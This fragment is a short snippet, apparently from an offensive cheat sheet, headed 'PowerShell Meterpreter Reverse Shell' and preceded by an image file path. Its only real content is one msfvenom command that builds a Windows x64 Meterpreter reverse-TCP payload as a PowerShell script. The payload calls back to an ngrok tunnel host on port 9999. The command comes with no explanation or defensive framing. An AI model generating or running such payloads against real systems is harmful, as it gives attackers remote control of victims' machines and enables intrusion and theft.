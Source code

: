 ## PowerShell Meterpreter Reverse Shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=2.tcp.ngrok.io LPORT=9999 -f psh -o meterpreter-64.ps1

